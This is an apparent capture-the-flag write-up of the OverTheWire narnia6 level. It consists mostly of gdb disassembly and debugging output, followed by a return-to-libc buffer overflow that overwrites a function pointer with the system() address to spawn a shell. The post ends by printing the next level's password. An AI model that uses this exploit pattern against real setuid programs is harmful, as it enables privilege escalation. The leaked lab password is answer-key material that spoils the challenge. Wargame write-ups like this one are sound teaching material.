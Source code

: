+++
title = "Over the wire - narnia06"
description = "Over the wire - narnia06"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-06"
project_url = "https://greyhat.dk/over-the-wire-narnia-06"
type = "post"
+++


http://www.cplusplus.com/reference/cstdlib/system/

narnia6@melinda:~$ gdb -q /narnia/narnia6
Reading symbols from /narnia/narnia6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   ebp
   0x0804855a <+1>:	mov    ebp,esp
   0x0804855c <+3>:	push   ebx
   0x0804855d <+4>:	and    esp,0xfffffff0
   0x08048560 <+7>:	sub    esp,0x30
   0x08048563 <+10>:	mov    DWORD PTR [esp+0x28],0x80483f0
   0x0804856b <+18>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804856f <+22>:	je     0x8048592 <main+57>
   0x08048571 <+24>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048574 <+27>:	mov    eax,DWORD PTR [eax]
   0x08048576 <+29>:	mov    DWORD PTR [esp+0x4],eax
   0x0804857a <+33>:	mov    DWORD PTR [esp],0x8048750
   0x08048581 <+40>:	call   0x80483d0 <printf@plt>
   0x08048586 <+45>:	mov    DWORD PTR [esp],0xffffffff
   0x0804858d <+52>:	call   0x8048410 <exit@plt>
   0x08048592 <+57>:	mov    DWORD PTR [esp+0x2c],0x0
   0x0804859a <+65>:	jmp    0x80485de <main+133>
   0x0804859c <+67>:	mov    eax,ds:0x80499a0
   0x080485a1 <+72>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485a5 <+76>:	shl    edx,0x2
   0x080485a8 <+79>:	add    eax,edx
   0x080485aa <+81>:	mov    eax,DWORD PTR [eax]
   0x080485ac <+83>:	mov    DWORD PTR [esp],eax
   0x080485af <+86>:	call   0x8048420 <strlen@plt>
   0x080485b4 <+91>:	mov    edx,DWORD PTR ds:0x80499a0
   0x080485ba <+97>:	mov    ecx,DWORD PTR [esp+0x2c]
   0x080485be <+101>:	shl    ecx,0x2
   0x080485c1 <+104>:	add    edx,ecx
   0x080485c3 <+106>:	mov    edx,DWORD PTR [edx]
   0x080485c5 <+108>:	mov    DWORD PTR [esp+0x8],eax
   0x080485c9 <+112>:	mov    DWORD PTR [esp+0x4],0x0
   0x080485d1 <+120>:	mov    DWORD PTR [esp],edx
   0x080485d4 <+123>:	call   0x8048440 <memset@plt>
   0x080485d9 <+128>:	add    DWORD PTR [esp+0x2c],0x1
   0x080485de <+133>:	mov    eax,ds:0x80499a0
   0x080485e3 <+138>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485e7 <+142>:	shl    edx,0x2
   0x080485ea <+145>:	add    eax,edx
   0x080485ec <+147>:	mov    eax,DWORD PTR [eax]
   0x080485ee <+149>:	test   eax,eax
   0x080485f0 <+151>:	jne    0x804859c <main+67>
   0x080485f2 <+153>:	mov    DWORD PTR [esp+0x2c],0x3
   0x080485fa <+161>:	jmp    0x8048641 <main+232>
   0x080485fc <+163>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048600 <+167>:	lea    edx,[eax*4+0x0]
   0x08048607 <+174>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804860a <+177>:	add    eax,edx
   0x0804860c <+179>:	mov    eax,DWORD PTR [eax]
   0x0804860e <+181>:	mov    DWORD PTR [esp],eax
   0x08048611 <+184>:	call   0x8048420 <strlen@plt>
   0x08048616 <+189>:	mov    edx,DWORD PTR [esp+0x2c]
   0x0804861a <+193>:	lea    ecx,[edx*4+0x0]
   0x08048621 <+200>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048624 <+203>:	add    edx,ecx
   0x08048626 <+205>:	mov    edx,DWORD PTR [edx]
   0x08048628 <+207>:	mov    DWORD PTR [esp+0x8],eax
   0x0804862c <+211>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048634 <+219>:	mov    DWORD PTR [esp],edx
   0x08048637 <+222>:	call   0x8048440 <memset@plt>
   0x0804863c <+227>:	add    DWORD PTR [esp+0x2c],0x1
   0x08048641 <+232>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048645 <+236>:	lea    edx,[eax*4+0x0]
   0x0804864c <+243>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804864f <+246>:	add    eax,edx
   0x08048651 <+248>:	mov    eax,DWORD PTR [eax]
   0x08048653 <+250>:	test   eax,eax
   0x08048655 <+252>:	jne    0x80485fc <main+163>
   0x08048657 <+254>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804865a <+257>:	add    eax,0x4
   0x0804865d <+260>:	mov    eax,DWORD PTR [eax]
   0x0804865f <+262>:	mov    DWORD PTR [esp+0x4],eax
   0x08048663 <+266>:	lea    eax,[esp+0x20]
   0x08048667 <+270>:	mov    DWORD PTR [esp],eax
   0x0804866a <+273>:	call   0x80483e0 <strcpy@plt>
   0x0804866f <+278>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048672 <+281>:	add    eax,0x8
   0x08048675 <+284>:	mov    eax,DWORD PTR [eax]
   0x08048677 <+286>:	mov    DWORD PTR [esp+0x4],eax
   0x0804867b <+290>:	lea    eax,[esp+0x18]
   0x0804867f <+294>:	mov    DWORD PTR [esp],eax
   0x08048682 <+297>:	call   0x80483e0 <strcpy@plt>
   0x08048687 <+302>:	mov    eax,DWORD PTR [esp+0x28]
   0x0804868b <+306>:	and    eax,0xff000000
   0x08048690 <+311>:	mov    ebx,eax
   0x08048692 <+313>:	call   0x804854d <get_sp>
   0x08048697 <+318>:	cmp    ebx,eax
   0x08048699 <+320>:	jne    0x80486a7 <main+334>
   0x0804869b <+322>:	mov    DWORD PTR [esp],0xffffffff
   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
   0x080486a7 <+334>:	lea    eax,[esp+0x20]
   0x080486ab <+338>:	mov    DWORD PTR [esp],eax
   0x080486ae <+341>:	mov    eax,DWORD PTR [esp+0x28]
   0x080486b2 <+345>:	call   eax
   0x080486b4 <+347>:	mov    DWORD PTR [esp],0x1
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.
(gdb) r $(python -c 'print "A"*8') $(python -c 'print "B"*8')
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8') $(python -c 'print "B"*8')

Program received signal SIGSEGV, Segmentation fault.
0x08048301 in ?? ()
(gdb) i reg
eax            0x8048300	134513408
ecx            0xffffd8ad	-10067
edx            0xffffd698	-10600
ebx            0x8000000	134217728
esp            0xffffd680	0xffffd680
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x80486b4	134514356
eip            0x8048301	0x8048301
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) r $(python -c 'print "A"*12') $(python -c 'print "B"*12')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*12') $(python -c 'print "B"*12')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) i reg
eax            0x41414141	1094795585
ecx            0xffffd8a9	-10071
edx            0xffffd698	-10600
ebx            0x41000000	1090519040
esp            0xffffd67c	0xffffd67c
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) r $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh")
/bin/bash: -c: line 0: unexpected EOF while looking for matching `''
/bin/bash: -c: line 1: syntax error: unexpected end of file
During startup program exited with code 1.
(gdb) r $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
$
$ exit
[Inferior 1 (process 7457) exited with code 01]
(gdb)
(gdb) quit
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$ gdb -q /narnia/narnia6
Reading symbols from /narnia/narnia6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   ebp
   0x0804855a <+1>:	mov    ebp,esp
   0x0804855c <+3>:	push   ebx
   0x0804855d <+4>:	and    esp,0xfffffff0
   0x08048560 <+7>:	sub    esp,0x30
   0x08048563 <+10>:	mov    DWORD PTR [esp+0x28],0x80483f0
   0x0804856b <+18>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804856f <+22>:	je     0x8048592 <main+57>
   0x08048571 <+24>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048574 <+27>:	mov    eax,DWORD PTR [eax]
   0x08048576 <+29>:	mov    DWORD PTR [esp+0x4],eax
   0x0804857a <+33>:	mov    DWORD PTR [esp],0x8048750
   0x08048581 <+40>:	call   0x80483d0 <printf@plt>
   0x08048586 <+45>:	mov    DWORD PTR [esp],0xffffffff
   0x0804858d <+52>:	call   0x8048410 <exit@plt>
   0x08048592 <+57>:	mov    DWORD PTR [esp+0x2c],0x0
   0x0804859a <+65>:	jmp    0x80485de <main+133>
   0x0804859c <+67>:	mov    eax,ds:0x80499a0
   0x080485a1 <+72>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485a5 <+76>:	shl    edx,0x2
   0x080485a8 <+79>:	add    eax,edx
   0x080485aa <+81>:	mov    eax,DWORD PTR [eax]
   0x080485ac <+83>:	mov    DWORD PTR [esp],eax
   0x080485af <+86>:	call   0x8048420 <strlen@plt>
   0x080485b4 <+91>:	mov    edx,DWORD PTR ds:0x80499a0
   0x080485ba <+97>:	mov    ecx,DWORD PTR [esp+0x2c]
   0x080485be <+101>:	shl    ecx,0x2
   0x080485c1 <+104>:	add    edx,ecx
   0x080485c3 <+106>:	mov    edx,DWORD PTR [edx]
   0x080485c5 <+108>:	mov    DWORD PTR [esp+0x8],eax
   0x080485c9 <+112>:	mov    DWORD PTR [esp+0x4],0x0
   0x080485d1 <+120>:	mov    DWORD PTR [esp],edx
   0x080485d4 <+123>:	call   0x8048440 <memset@plt>
   0x080485d9 <+128>:	add    DWORD PTR [esp+0x2c],0x1
   0x080485de <+133>:	mov    eax,ds:0x80499a0
   0x080485e3 <+138>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485e7 <+142>:	shl    edx,0x2
   0x080485ea <+145>:	add    eax,edx
   0x080485ec <+147>:	mov    eax,DWORD PTR [eax]
   0x080485ee <+149>:	test   eax,eax
   0x080485f0 <+151>:	jne    0x804859c <main+67>
   0x080485f2 <+153>:	mov    DWORD PTR [esp+0x2c],0x3
   0x080485fa <+161>:	jmp    0x8048641 <main+232>
   0x080485fc <+163>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048600 <+167>:	lea    edx,[eax*4+0x0]
   0x08048607 <+174>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804860a <+177>:	add    eax,edx
   0x0804860c <+179>:	mov    eax,DWORD PTR [eax]
   0x0804860e <+181>:	mov    DWORD PTR [esp],eax
   0x08048611 <+184>:	call   0x8048420 <strlen@plt>
   0x08048616 <+189>:	mov    edx,DWORD PTR [esp+0x2c]
   0x0804861a <+193>:	lea    ecx,[edx*4+0x0]
   0x08048621 <+200>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048624 <+203>:	add    edx,ecx
   0x08048626 <+205>:	mov    edx,DWORD PTR [edx]
   0x08048628 <+207>:	mov    DWORD PTR [esp+0x8],eax
---Type <return> to continue, or q <return> to quit---
   0x0804862c <+211>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048634 <+219>:	mov    DWORD PTR [esp],edx
   0x08048637 <+222>:	call   0x8048440 <memset@plt>
   0x0804863c <+227>:	add    DWORD PTR [esp+0x2c],0x1
   0x08048641 <+232>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048645 <+236>:	lea    edx,[eax*4+0x0]
   0x0804864c <+243>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804864f <+246>:	add    eax,edx
   0x08048651 <+248>:	mov    eax,DWORD PTR [eax]
   0x08048653 <+250>:	test   eax,eax
   0x08048655 <+252>:	jne    0x80485fc <main+163>
   0x08048657 <+254>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804865a <+257>:	add    eax,0x4
   0x0804865d <+260>:	mov    eax,DWORD PTR [eax]
   0x0804865f <+262>:	mov    DWORD PTR [esp+0x4],eax
   0x08048663 <+266>:	lea    eax,[esp+0x20]
   0x08048667 <+270>:	mov    DWORD PTR [esp],eax
   0x0804866a <+273>:	call   0x80483e0 <strcpy@plt>
   0x0804866f <+278>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048672 <+281>:	add    eax,0x8
   0x08048675 <+284>:	mov    eax,DWORD PTR [eax]
   0x08048677 <+286>:	mov    DWORD PTR [esp+0x4],eax
   0x0804867b <+290>:	lea    eax,[esp+0x18]
   0x0804867f <+294>:	mov    DWORD PTR [esp],eax
   0x08048682 <+297>:	call   0x80483e0 <strcpy@plt>
   0x08048687 <+302>:	mov    eax,DWORD PTR [esp+0x28]
   0x0804868b <+306>:	and    eax,0xff000000
   0x08048690 <+311>:	mov    ebx,eax
   0x08048692 <+313>:	call   0x804854d <get_sp>
   0x08048697 <+318>:	cmp    ebx,eax
   0x08048699 <+320>:	jne    0x80486a7 <main+334>
   0x0804869b <+322>:	mov    DWORD PTR [esp],0xffffffff
   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
   0x080486a7 <+334>:	lea    eax,[esp+0x20]
   0x080486ab <+338>:	mov    DWORD PTR [esp],eax
   0x080486ae <+341>:	mov    eax,DWORD PTR [esp+0x28]
   0x080486b2 <+345>:	call   eax
   0x080486b4 <+347>:	mov    DWORD PTR [esp],0x1
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.
(gdb) break system
Function "system" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y
Breakpoint 1 (system) pending.
(gdb) r $(python -c 'print "A"*8') $(python -c 'print "B"*8')
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8') $(python -c 'print "B"*8')

Program received signal SIGSEGV, Segmentation fault.
0x08048301 in ?? ()
(gdb) i reg
eax            0x8048300	134513408
ecx            0xffffd8ad	-10067
edx            0xffffd698	-10600
ebx            0x8000000	134217728
esp            0xffffd680	0xffffd680
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x80486b4	134514356
eip            0x8048301	0x8048301
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) r $(python -c 'print "A"*12') $(python -c 'print "B"*12')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*12') $(python -c 'print "B"*12')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) i reg
eax            0x41414141	1094795585
ecx            0xffffd8a9	-10071
edx            0xffffd698	-10600
ebx            0x41000000	1090519040
esp            0xffffd67c	0xffffd67c
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) break system
Note: breakpoint 1 also set at pc 0xf7e63cd0.
Breakpoint 2 at 0xf7e63cd0
(gdb) r $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')

Breakpoint 1, 0xf7e63cd0 in system () from /lib32/libc.so.6
(gdb) c
Continuing.
$ exit
[Inferior 1 (process 8155) exited with code 01]
(gdb) quit
narnia6@melinda:~$ /narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
ahkiaziphu
